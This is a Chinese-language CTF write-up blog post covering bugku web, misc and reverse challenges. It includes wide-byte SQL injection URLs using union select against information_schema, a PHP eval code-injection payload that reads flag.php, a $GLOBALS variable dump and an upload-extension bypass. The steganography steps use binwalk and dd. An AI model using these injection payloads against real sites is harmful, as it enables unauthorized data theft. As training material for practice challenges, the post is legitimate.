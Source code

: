 ```yaml
---
layout: post
title: "bugkuctf writeup"
date: 2017-6-8 13:07:37
author: "可乐"
catalog: true
tags:
  -  ctf
  -  学习使我快乐
  -  总结

---
```


# web题
## 1.签到题
第一道题加群，群公告里面有个flag
## 2.web2
打开网页之后是一大群滑稽,`聪明的人都能找到答案`，毫无疑问，应该是一道水题，果断ctrl+u查看源代码，发现flag是明文
![](http://or4d8nhvk.bkt.clouddn.com/17-6-6/25472274.jpg)
## 3.文件上传
上传一个php文件，被拦截;上传一个图片文件，提示不是php文件，使用burpsuite，上传一个图片文件**.png，被burp拦截下来之后，发送到repeater里面，修改文件后缀**.png.php，response里面得到flag   
## 4.计算题
题目出现了一个很简单的验证码，只要输入正确就可以获得flag，但是尝试后发现题目的输入框只能输入一个数字，果断审查元素，发现了输入框的最大长度被设置成了1,于是修改输入框的maxlength属性为5
输入结果就可以了
![](http://or4d8nhvk.bkt.clouddn.com/17-6-6/79678251.jpg)
## 5.web3
打开网页之后疯狂弹窗，按住回车，稍等片刻之后，查看源代码，发现这个
![](http://or4d8nhvk.bkt.clouddn.com/17-6-7/65660087.jpg)
发现一长串奇奇怪怪的字符，猜测应该是ascii码，加密，所以理论上来说应该编写脚本，但是水平不太够，实际上就是懒得编，所以说手动对表得到flag
## 6.sql注入
`http://103.238.227.13:10083/?id=1` 使用了`'`、'and 1=2',我擦我以为是盲注太刺激了。。。。。后来打开源码看了下gbk编码，考虑宽字符注入构造payload`http://103.238.227.13:10083/?id=1%df'`,成功了，就是宽字符注入。
`http://103.238.227.13:10083/?id=1%df' order by 2`  一共有两列    
`http://103.238.227.13:10083/?id=1%df' union select 1,2--+`   
`http://103.238.227.13:10083/?id=1%df' union select 1,database()--+`   数据库是sql5   
`http://103.238.227.13:10083/?id=1%df' union select 1,string from sql5.key--+` 题目要求查询string字段 查询key表    
ps:如果直接查询key表的话key既是表名又是字段名，具体的原因可以这样看    
payload:`http://103.238.227.13:10083/?id=1%df' union select 1,string from `key`--+`  
`http://103.238.227.13:10083/?id=1%df' union select 1,table_name from information_schema.tables--+`  表名中有个key     
`http://103.238.227.13:10083/?id=1%df' union select 1,column_name from information_schema.columns--+`   字段名中有个key    
## 7.sql注入1
题目的过滤可以在关键词中加入<>绕过
## 你必须让他停下来
这个题目打开网页之后，网页会不断的刷新，所以用burpsuite抓包让他停下来，应该会出现flag
![](http://or4d8nhvk.bkt.clouddn.com/17-6-7/44409313.jpg)
耐心抓，每次刷新都不一样，终有一次会出来flag的，![](http://i4.buimg.com/567571/2767db2b248fa3b7.gif)。  
## 本地包含
eval存在执行漏洞，使用hello构造payload   
`http://120.24.86.145:8003/index.php?hello=1);show_source(%27flag.php%27);var_dump(3`
## 变量一
题目提示flag在变量里面，我们就要把所有的变量值都打印出来。看到题目使用了preg_match,使用正则匹配，变量名只能是字母或者数字的组合，最后输出$$args，把$args的内容当做变量来处理，所以构造payload   
`http://120.24.86.145:8004/index1.php?args=GLOBALS`  得到flag    
## web4
提示查看源文件，查看源文件发现两个变量的内容是url编码，下面的eval里面使用了unescape函数解码，所以直接使用url解码，得到的字符串手动拼接就可以了
```
function checkSubmit()
{
  var a=document.getElementById("password");
  if("undefined"!=typeof a)
  {
    if("67d709b2b54aa2aa648cf6e87a7114f1"==a.value)
  return!0;
  alert("Error");
  a.focus();
  return!1
}
  document.getElementById("levelQuest").onsubmit=checkSubmit;```
所以在输入框中输入上面67d709b2b54aa2aa648cf6e87a7114f1,得到flag   
## web5
查看源代码，发现一长串，google/baidu得到这是jsfuck，在chrome里面运行jsfuck的脚本，立刻得到源代码
![](http://or4d8nhvk.bkt.clouddn.com/17-6-7/54118776.jpg)
## 变量一
题目提示flag在变量里面，我们就要把所有的变量值都打印出来。看到题目使用了preg_match,使用正则匹配，变量名只能是字母或者数字的组合，最后输出$$args，把$args的内容当做变量来处理，所以构造payload   
`http://120.24.86.145:8004/index1.php?args=GLOBALS`  得到flag  

# misc
## 这只是一张单纯的图片？
![](http://120.24.86.145:8002/misc/1.jpg),使用二进制查看图片，发现图片结尾不对劲，有两个等于号，益达告诉我是base64加密，于是去晚上解密base64，果真得到了flag
## 隐写2
下载之后是一张图片，binwalk分写了一下，果然是一张图，没啥特别的。。。。。。。。。   
![图片损伤，无法显示很正常](http://or4d8nhvk.bkt.clouddn.com/17-6-8/3662184.jpg)
![](http://or4d8nhvk.bkt.clouddn.com/17-6-8/66948591.jpg)
winhex打开，修改第二行第7列,由A4改为F4，就可以看到flag了。
![](http://or4d8nhvk.bkt.clouddn.com/17-6-8/7110329.jpg)
##  又一张图片，还单纯吗？
![](http://or4d8nhvk.bkt.clouddn.com/17-6-8/6787699.jpg)
binwalk 跑一跑，发现里面应该还有一张图片，所以用dd命令分离开，得到flag。
![](http://or4d8nhvk.bkt.clouddn.com/17-6-8/79527753.jpg)
![](http://or4d8nhvk.bkt.clouddn.com/17-6-8/18794934.jpg)
ocr识别就可以得到flag(出题人打错了...)，或者手动输入

## reverse
## easy_vb
下载文件之后，直接拖到IDA之中，查看注释之中就有flag，不多说了
